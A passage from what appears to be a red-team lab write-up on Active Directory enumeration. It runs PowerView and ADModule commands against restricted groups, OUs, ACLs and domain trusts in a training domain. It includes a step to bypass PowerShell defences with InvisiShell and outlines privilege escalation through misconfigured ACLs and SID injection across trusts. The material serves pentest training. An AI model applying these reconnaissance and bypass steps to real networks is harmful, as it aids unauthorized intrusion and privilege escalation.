But… We do have an issue here. This command will: General enumeration of all GPOs, regardless of their specific settings BUT Does Not Include: Restricted Groups or their configurations.
What Are Restricted Groups?
Restricted Groups are a specific setting within GPOs that control the membership of groups on domain-joined machines. Administrators use Restricted Groups to ensure that specific users or groups are added to (or removed from) local groups like Administrators, Remote Desktop Users, or any custom groups on all domain-joined systems.
Example:
If a GPO with a Restricted Group policy is configured to:
- Group Name: Local Administrators.
- Members:
Domain Admins, ITSupport. Then, the Administrators group on all targeted systems will only containDomain AdminsandITSupport, regardless of any manual changes made locally. Issuing the following command, we are able to gather the Restricted groups.Get-DomainGPOLocalGroup

It is possible to see that we do have one Restricted Group in the domain, named machineadmins. Now that we already know that we do have at least one Restricted Group. Let’s see if we can find out the members of this Restricted Group.Get-DomainGroupMember -Identity 'machineadmins'
We can also try to check the Members of this Restricted Group with ADModule. But it seems like we have no members at all in this Restricted Group.
Get-ADGroupMember -Identity 'machineadmins'
Organization Units Enumeration
In an Active Directory (AD) environment, Organizational Units (OUs) are containers used to logically organize and manage objects within a domain. These objects can include:
- Users
- Groups
- Computers
- Other OUs (nested OUs)
OUs provide administrators with a way to group related objects, delegate administrative tasks, and apply Group Policy Objects (GPOs) to specific sets of objects. They are an essential component of AD's hierarchical structure, enabling fine-grained control over resources in the network.
OUs are critical because they provide valuable information about how the target organization structures its resources, policies, and privileges. Understanding the OU structure can help an attacker identify high-value targets, privilege escalation paths, and misconfigurations
OU Enumeration with ADModule
Let’s start this enumeration using ADModule.
Get-ADOrganizationalUnit

Using the ADModule above, we were able to retrieve the OUs we do have configured on us.techcorp.local domain(the domain we are right now).
Now that we were able to find all the OU inside our domain, we can see or list all the computers that belong to any specific student of our choice.
Let’s use Students OU and list all the computers inside this OU.
Get-ADOrganizationalUnit -Identity 'OU=Students,DC=us,DC=techcorp,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | Select name

Amazing, inside the Students OU we do have all the students machines.
OU Enumeration with PowerView
To enumerate OU inside the domain we can use the Get-DomainOU command.
Get-DomainOU

Using PowerView module we were able to retrieve all the OUs configured in this Domain.
Now let’s enumerate all the computers that belong to Students OU.
(Get-DomainOU -Identity 'Students').distinguishedname | %{Get-DomainComputer -SearchBase $_} | Select name

Now we do have the full list of computers inside Students OU. We can see that all the students computers belong to this student OU.
Let’s say we want to enumerate the GPO applied to Students OU. To achieve this task, all we need to do is to use Get-DomainGPO and filter by the unique identifier (GUID) of the GPO we are querying. Since we made a request of all OU previously with command Get-DomainOU, we can find the unique identifier (GUID) under the glink property ([LDAP://cn={FCE16496-C744-4E46-AC89-2D01D76EAD68},cn=policies,cn=system,DC=us,DC=techcorp,DC=local;0])
Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'

We can see, we are able to find what GPO is being applied to Students OU with a single command. Remember that this can be done with anyone OU based on OU’s unique identifier (GUID).
Enumerating ACL (Access Control List)
Access Control Lists (ACLs) in Active Directory (AD) are critical components that govern permissions and access rights within an AD environment.
ACLs determine who can access what and what actions they can perform on objects like users, groups, computers, organizational units (OUs), and domain objects.
ACLs are the backbone of access control in an Active Directory environment. Misconfigurations in ACLs are often exploited by attackers to escalate privileges or move laterally. By enumerating ACLs during a Red Team engagement, attackers can uncover these misconfigurations and abuse them to achieve their objectives. For pentesters, this process is essential for demonstrating the risks posed by overly permissive or misconfigured permissions. Proper enumeration and exploitation of ACLs highlight critical security gaps, allowing organizations to strengthen their defenses.
An ACL is a list of permissions attached to an object. It defines what actions a security principal (user, group, or computer) can perform on that object.
- Discretionary Access Control List (DACL): Defines which users or groups have specific permissions.
- System Access Control List (SACL): Defines auditing rules, specifying which actions are logged for certain users or groups.
- Permissions:
- Common permissions include Read, Write, Modify, and Full Control.
- Advanced permissions allow granular control, such as modifying group membership, resetting passwords, or managing service principals.
Importance of ACLs in Active Directory
- Securing Resources:
- ACLs control access to sensitive resources like files, user accounts, and domain controllers.
- Misconfigured ACLs can grant excessive privileges, leading to data breaches or privilege escalation.
- Delegating Administrative Tasks:
- ACLs enable granular delegation, allowing specific administrative tasks to be assigned to non-administrators without granting full control.
- Preventing Lateral Movement:
- Properly configured ACLs restrict unauthorized access, limiting an attacker’s ability to move laterally within the domain.
- Enforcing Compliance:
- SACLs ensure proper auditing of critical actions, such as who modified group memberships or accessed sensitive objects.
Why Enumerating ACLs Is Important in a Red Team Engagement
During a Red Team engagement, enumerating ACLs is a critical step because misconfigured or overly permissive ACLs often provide a pathway to privilege escalation or lateral movement. Here's why:
- Identifying Weak Permissions:
- Overly permissive ACLs might allow low-privileged users to perform high-impact actions, such as:
- Resetting passwords for privileged accounts.
- Adding themselves to sensitive groups like Domain Admins.
- Modifying security group memberships.
- Discovering Privilege Escalation Paths:
- Misconfigured permissions on critical AD objects can create attack paths. For example:
- A low-privileged user has WriteProperty permissions on a service account that is a member of the Domain Admins group.
- Exploiting this misconfiguration allows the attacker to escalate privileges.
- Abusing Delegated Access:
- Delegated permissions on OUs or specific users might reveal opportunities to abuse privileges intended for non-admin users.
- Planning Stealthy Attacks:
- By enumerating ACLs, attackers can identify "quiet" paths to escalate privileges or persist within the domain without triggering alerts.
Use Case: Enumerating ACLs During a Pentesting Engagement
Scenario: Privilege Escalation via Misconfigured ACLs
- Initial Access:
- A pentester gains access to a compromised user account (e.g., via phishing or credential stuffing).
- The compromised account belongs to a low-privileged user in the domain.
- Enumeration of ACLs:
- The pentester enumerates ACLs on domain objects like users, groups, and OUs.
- They find that the compromised user has WriteProperty permissions on a service account (e.g.,
SQLService). 1. Exploitation: - The pentester abuses WriteProperty permissions to reset the password of theSQLServiceaccount. -SQLServiceis found to be a member of the Domain Admins group. 1. Privilege Escalation: - With the new password, the pentester authenticates asSQLServiceand gains Domain Admin privileges. - Post-Exploitation:
- The pentester continues to enumerate additional ACLs for persistence mechanisms, such as adding shadow administrators or backdoors.
Lessons Learned:
- Misconfigured ACLs directly led to privilege escalation.
- Lack of proper auditing (SACLs) may have allowed the attack to go unnoticed during execution.
We have 2 options to enumerate ACL inside the us.techcorp.local domain. Let’s achieve this goal using ADModule and also PowerView.
Enumerating ACL with ADModule
Let’s say we want to enumerate the ACLs on the Domain Admins group object itself, showing who has permissions to manage or interact with that group.
Get-ACL 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local' | select -ExpandProperty Access

Above we do have several ACLs but I just showed 4 of the several ACL,. We are inspecting the Access Control List (ACL) of the Domain Admins group, specifically focusing on its Access Control Entries (ACEs).
This provides details about who has permissions on the object and what actions they are allowed to perform.
Our current command is enumerating the ACLs on the Domain Admins group object itself, showing who has permissions to manage or interact with that group.
Enumerating ACLs with PowerView
To enumerate ACLs using PowerView, we can user the Get-DomainObjectACL command.
Get-DomainObjectACL

The Command Above will list all the ACLs we do have configure on the domain.
Let’s say that we do want to see what ACLs are Applied to Domain Admins Group as we did previously with ADModule. To achive this task we can simply filter by the Group name.
Get-DomainObjectACL -Identity 'Domain Admins' -ResolveGUIDs -Verbose

We were able to get a list of all ACLs in domain us.techcorp.local
Now let’s do something interesting here. Since we are a valid domain user, let’s see if we do have any valid or modified RIGHTS/PERMISSIONS on object inside the domain.
We are studentuser163, so in this case we will be checking, what permissions our user has in this domain.
All we need to do is to filter based on our username.
> Note: Please pay attention that, this type of query may take some time to finish.Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'studentuser163'}

Above we can see that we have not received any output, it means that our current user studentuser163 does not contain any RIGHT or PERMISSION on any object inside us.techcorp.local domain.
Let’s now try the same query, but, this type let’s check rights and permissions of the group StudentsUsers, which is the group where our studentuser163 is MemberOf.
The query will be exactly the same, with a small difference that instead of using the username we will use the group name our user belongs to.
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'StudentUsers'}

As a member of the StudentsUsers group we do have:
GenericAll on Support168User , Support169User and Support170User: - Full control, allowing password resets, attribute modifications, group membership changes, or deletion of these accounts. This can be used for privilege escalation if these accounts have elevated privileges. Permissions on MailMgmt OU: These permissions offer opportunities for privilege escalation by taking control of theSupport accounts or manipulating objects in the MailMgmt OU.
Regular ACL reviews are critical to prevent such misconfigurations.
Enumerating Domain, Forest & Trusts
Domain, forest, and trust enumeration is a crucial phase in Active Directory (AD) enumeration during penetration testing or Red Team engagements. This process provides insights into the structure, relationships, and potential attack paths within and across AD environments. Understanding how domains, forests, and trusts interact is essential for identifying misconfiguration and opportunities for lateral movement, privilege escalation, and even cross-domain compromises.
1. Domains
- A domain is the fundamental administrative boundary in Active Directory.
- Each domain contains its own user accounts, groups, computers, and policies.
- Domains operate under a single security boundary, meaning permissions and privileges are typically confined within that domain unless explicitly extended via trusts.
2. Forests
- A forest is a collection of one or more domains that share:
- A common schema (the structure and attributes of objects).
- A global catalog (a searchable directory of objects across the forest).
- Trust relationships between domains for secure resource sharing.
- The first domain created in a forest is the forest root domain, which holds administrative control over the entire forest.
3. Trusts
- A trust is a relationship between domains or forests that allows resources to be shared securely.
- Types of Trusts:
- Parent-Child Trusts: Automatically created when a new child domain is added.
- Tree-Root Trusts: Automatically created when a new domain tree is added to a forest.
- External Trusts: Manually created between domains in different forests or non-AD environments.
- Forest Trusts: Created between forests to share resources.
- Shortcut Trusts: Created to optimize access between domains in complex environments.
- Realm Trusts: Created between an AD domain and a non-Windows Kerberos realm.
- Trust Directions:
- One-Way Trust: Access flows in one direction only.
- Two-Way Trust: Access is mutual between both domains or forests.
Why Enumerate Domains, Forests, and Trusts?
- Mapping the Environment:
- Provides a clear picture of the AD structure, including the domains and forests.
- Identifies trust relationships and their directions (one-way or two-way).
- Identifying Attack Paths:
- Misconfigured trusts or overly permissive permissions can allow attackers to move laterally between domains or escalate privileges across forests.
- Expanding the Scope of Access:
- Enumeration reveals resources and accounts in trusted domains or forests that may be accessible using the attacker’s current privileges.
- Exploiting Trusts:
- Trust relationships can be abused to access sensitive data, compromise privileged accounts, or control remote systems.
Key Aspects to Enumerate
1. Domain Enumeration
- Domain Controllers (DCs):
- Identify the DCs within the domain. They are critical as they handle authentication, enforce policies, and replicate directory information.
- Domain Policies:
- Look for password policies, Kerberos ticket lifetimes, and other configurations.
- Domain Admins:
- Enumerate members of privileged groups like Domain Admins, Enterprise Admins, and Schema Admins.
- Service Principal Names (SPNs):
- Identify accounts with SPNs registered, which are often targets for Kerberoasting attacks.
2. Forest Enumeration
- Global Catalog Servers:
- Discover which servers are hosting the global catalog for cross-domain queries.
- Schema:
- Understand the schema, as modifications here can significantly impact the forest.
- Cross-Domain Groups:
- Identify accounts or groups with permissions across multiple domains within the forest.
3. Trust Enumeration
- Types and Directions of Trusts:
- Determine whether the trust is one-way or two-way.
- Enumerate external trusts, forest trusts, and shortcut trusts.
- Trust Attributes:
- Look for attributes like Transitive (trust applies across multiple domains) or Non-Transitive (limited to the specified domains).
- SID Filtering:
- Check if SID Filtering is enabled or disabled. Disabled SID filtering can allow privilege escalation across trusts.
- Kerberos Delegation:
- Identify if trust relationships allow Kerberos delegation, which can be abused for privilege escalation.
Use Case in Red Team Engagement
Scenario: Exploiting a Misconfigured Trust
- Initial Access:
- The attacker compromises a low-privileged account in Domain A.
- Trust Enumeration:
- Using
Get-ADTrust, the attacker discovers a two-way trust between Domain A and Domain B. - Privilege Escalation:
- The attacker identifies that Domain B does not have SID filtering enabled.
- They craft a malicious SID to impersonate a privileged account in Domain B.
- Result:
- The attacker gains access to Domain B’s resources, including privileged accounts or sensitive data.
Common Misconfigurations to Look For
- Overly Permissive Trusts:
- Trust relationships that allow all authenticated users to access resources in the trusted domain.
- Disabled SID Filtering:
- Allows attackers to abuse SIDs from one domain in another.
- Weak Password Policies:
- Poor policies in trusted domains can lead to easy account compromise and escalation.
- Unrestricted Kerberos Delegation:
Domain, forest, and trust enumeration is a critical step in understanding the structure and relationships within an AD environment. By identifying trust relationships and their weaknesses, attackers can map out attack paths for lateral movement and privilege escalation. Organizations must focus on securing trust configurations, enabling proper filtering, and monitoring cross-domain activity to mitigate these risks. For Red Teams, trust enumeration provides powerful insights into potential avenues for cross-domain compromises, making it an indispensable part of AD enumeration.
- Allows an attacker to impersonate accounts across domains.
Enumerating Domains with ADModule
Let’s make sure that we have executed InvisiShell to bypass the 4 Powershell defense mechanisms.
RunWithRegistryNonAdmin.bat

Now let’s start by issuing the Get-ADForest to get a full overview of all the domains.
This command quickly maps the forest's structure, identifies key servers (e.g., Domain Controllers, Global Catalogs), and highlights potential targets for attacks or lateral movement.
Get-ADForest

This command quickly maps the forest's structure, identifies key servers (e.g., Domain Controllers, Global Catalogs), and highlights potential targets for attacks or lateral movement.
The Get-ADForestcommand enumerates the structure and key components of the Active Directory forest. It provides a summary of: 1. Domains: Lists all domains in the forest (e.g.,techcorp.local and us.techcorp.local). 1. FSMO Roles: - DomainNamingMaster: Server managing domain additions/removals. - SchemaMaster: Server managing schema updates. 1. Global Catalogs: Servers hosting cross-domain data for faster queries. 1. Forest Functional Level: Features available in the forest (Windows2016Forest). 1. Application Partitions: DNS replication zones (DomainDnsZones and ForestDnsZones). 1. Root Domain: Identifies the forest's root domain (techcorp.local). 1. Sites: Lists AD sites (Default-First-Site-Name). If we just want to bring a list of all domains inside this forest, we can simply use the same query, but this time we can filter byDomainsproperty.(Get-ADForest).Domains

Above we can see all the domains belonging to this forest.
Enumerating Domains with PowerView
PowerView enumeration will bring the output a bit different from ADModule even tho we are basically carrying the same information.
Get-ForestDomain -Verbose

The output from PowerView will tell us in simple words what is the Forest name we are currently, which is this case the current forest is techcorp.local. We can also see that we only have one Childen Domain (us.techcorp.local).
Keep in mind that the command below will only show us domains within forest, no external domains will be shown here.
We can simply query all domains from this forest by filtering by name property.
Get-ForestDomain -Verbose | Select -ExpandProperty Name

Enumerating Trusts with ADModule
We can also map or enumerate all the Trusts we do have from the current domain we are part of (us.techcorp.local).
Get-ADTrust -Filter *

The above query will show us that we do have 2 Trusts which both of them are BiDirectional Trusts. To be able to determine which type of Trusts we do have, we should pay attention on the following properties on the previous query.
- (techcorp.local) Internal Trust
- Name:
techcorp.local→ Same domain root asSource. - IntraForest:True→ Internal trust. - ForestTransitive:False→ Restricted within the forest (likely parent-child relationship). - Direction: BiDirectional - TrustType:UPLEVEL (0x00000002)- A trusted Windows domain that is running Active Directory. - (eu.local) External Trust TrustType: - Name:eu.local→ Different domain fromSource. - IntraForest:False→ External trust. - ForestTransitive:False→ Likely a specific domain-to-domain trust, not spanning multiple domains. - Direction: BiDirectional - TrustType:UPLEVEL (0x00000002)- A trusted Windows domain that is running Active Directory. - DOWNLEVEL (0x00000001) — A trusted Windows domain that IS NOT running Active Directory. This is output as WINDOWSNONACTIVEDIRECTORY in PowerView for those not as familiar with the terminology. - UPLEVEL (0x00000002) — A trusted Windows domain that is running Active Directory.This is output as WINDOWSACTIVEDIRECTORY in PowerView for those not as familiar with the terminology. - MIT (0x00000003) — a trusted domain that is running a non-Windows (nix), RFC4120-compliant Kerberos distribution. This is labeled as MIT due to, well, MIT publishing RFC4120. TrustAttributes: - NONTRANSITIVE (0x00000001) — The trust cannot be used transitively. That is, if DomainA trusts DomainB and DomainB trusts DomainC, then DomainA does not automatically trust DomainC. Also, if a trust is non-transitive, thenyou will not be able to query any Active Directory information from trusts up the chain from the non-transitive point. External trusts are implicitly non-transitive. - UPLEVELONLY (0x00000002) — only Windows 2000 operating system and newer clients can use the trust. - QUARANTINEDDOMAIN (0x00000004) — SID filtering is enabled (more on this later). Output as FILTERSIDS with PowerView for simplicity. - FORESTTRANSITIVE (0x00000008) — cross-forest trust between the root of two domain forests running at least domain functional level 2003 or above. - CROSSORGANIZATION (0x00000010) — the trust is to a domain or forest that is not part of the organization, which adds the OTHERORGANIZATION SID. This is a bit of a weird one. According to this post it means that the selective authentication security protection is enabled. For more information, check out this MSDN doc. - WITHINFOREST (0x00000020) — the trusted domain is within the same forest, meaning a parent->child or cross-link relationship - TREATASEXTERNAL (0x00000040) — the trust is to be treated as external for trust boundary purposes. According to the documentation, “If this bit is set, then a cross-forest trust to a domain is to be treated as an external trust for the purposes of SID Filtering. Cross-forest trusts are more stringently filtered than external trusts. This attribute relaxes those cross-forest trusts to be equivalent to external trusts.” This sounds enticing, and I’m not 100% sure on the security implications of this statement ¯\(ツ)/¯ but I will update this post if anything new surfaces. - USESRC4ENCRYPTION (0x00000080) — if the TrustType is MIT, specifies that the trust that supports RC4 keys. - USESAESKEYS (0x00000100) — not listed in the linked Microsoft documentation, but according to some documentation I’ve been able to find online, it specifies that AES keys are used to encrypt KRB TGTs. - CROSSORGANIZATIONNOTGTDELEGATION (0x00000200) — “If this bit is set, tickets granted under this trust MUST NOT be trusted for delegation.” This is described more in [MS-KILE] 3.3.5.7.5 (Cross-Domain Trust and Referrals.) - PIMTRUST (0x00000400) — “If this bit and the TATE (treat as external) bit are set, then a cross-forest trust to a domain is to be treated as Privileged Identity Management trust for the purposes of SID Filtering.” According to [MS-PAC] 4.1.2.2 (SID Filtering and Claims Transformation), “A domain can be externally managed by a domain that is outside the forest. The trusting domain allows SIDs that are local to its forest to come over a PrivilegedIdentityManagement trust.” Since we do have a 2-Ways or BiDirectional trust with an External Trusteu.local, we can also query the Trustseu.localhave.Get-ADTrust -Filter-Server eu.local

- (us.techcorp.local → eu.local) External Trust
- Direction: Bidirectional → Mutual access between both domains.
- Name:
us.techcorp.local→ A trusted domain external toeu.local. - IntraForest:False→ Indicates an external trust, not part of the same forest. - ForestTransitive:False→ Trust is not extended to other domains within the forests. - SIDFilteringForestAware:True→ SID filtering is enabled, preventing privilege escalation through SID injection. - SIDFilteringQuarantined:True→ Additional security measures are in place to block rogue SIDs. - Source:DC=eu,DC=local→ The trust originates fromeu.local. - Target:us.techcorp.local→ Trust applies to this external domain. - TrustType: Uplevel → The trusted domain runs Active Directory. - SelectiveAuthentication:False→ All authenticated users inus.techcorp.localcan access resources ineu.local(permissions dependent). - (euvendor.local → eu.local) External Trust We can see above that our Extrenal Trust eu.local also has some External Trusts witheu.techcorp.local(which is the domain we are currently) and witheuvendor.local. Now let’s say we want to enumerate the trusts of our root or Parent Domain (techcorp.local).Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
We can see above that our parent domain techcorp.local has 2 external Trust relationship.
- Direction: Bidirectional → Mutual access between both domains.
- Name:
euvendor.local→ Another external domain trusted byeu.local. - IntraForest:False→ Indicates an external trust, not part of the same forest. - ForestTransitive:True→ Trust extends across all domains in both forests. - SIDFilteringForestAware:True→ SID filtering is enabled, ensuring security across the trust. - SIDFilteringQuarantined:False→ SID filtering is enabled but not in quarantine mode. - Source:DC=eu,DC=local→ The trust originates fromeu.local. - Target:euvendor.local→ Trust applies to this external domain. - TrustType: Uplevel → The trusted domain runs Active Directory. - SelectiveAuthentication:False→ All authenticated users ineuvendor.localcan access resources ineu.local(permissions dependent). - (usvendor.local) External Trust - Name:usvendor.local→ Different domain fromSource. - IntraForest:False→ External trust. - ForestTransitive:True→ Trust applies across all domains in both forests. - Direction: BiDirectional → Mutual access between both domains. - TrustType:UPLEVEL (0x00000002)- A trusted Windows domain that is running Active Directory. - SelectiveAuthentication:False→ All authenticated users in the trusted domain can access resources in the trusting domain. - (bastion.local) External Trust - Name:bastion.local→ Different domain fromSource. - IntraForest:False→ External trust. - ForestTransitive:True→ Trust applies across all domains in both forests. - Direction: Inbound → Onlytechcorp.localusers can accessbastion.local, but not the other way around. - TrustType:UPLEVEL (0x00000002)- A trusted Windows domain that is running Active Directory. - SelectiveAuthentication:False→ All authenticated users in the trusted domain can access resources in the trusting domain.
Enumerating Trusts with PowerView
Let’s now Enumerate Trusts using PowerView module.
Get-DomainTrust -Verbose

The output of our Trusts enumeration using PowerView reveal basically what we have seen already using ADModule Trust enumeration. The query we did will only bring all the Trusts we do have inside our current domain eu.techcorp.local.
Trusts
UPLEVEL (0x00000002) - A trusted Windows domain that is running Active Directory.This is output as WINDOWSACTIVEDIRECTORY in PowerView for those not as familiar with the terminology.
Attributions
WITHIN_FOREST (0x00000020) — the trusted domain is within the same forest, meaning a parent->child or cross-link relationship
QUARANTINEDDOMAIN (0x00000004) — SID filtering is enabled (more on this later). Output as FILTERSIDS with PowerView for simplicity.
TrustType:
- DOWNLEVEL (0x00000001) — A trusted Windows domain that IS NOT running Active Directory. This is output as WINDOWSNONACTIVE_DIRECTORY in PowerView for those not as familiar with the terminology.
- UPLEVEL (0x00000002) — A trusted Windows domain that is running Active Directory.This is output as WINDOWSACTIVEDIRECTORY in PowerView for those not as familiar with the terminology.
- MIT (0x00000003) — a trusted domain that is running a non-Windows (*nix), RFC4120-compliant Kerberos distribution. This is labeled as MIT due to, well, MIT publishing RFC4120.
TrustAttributes:
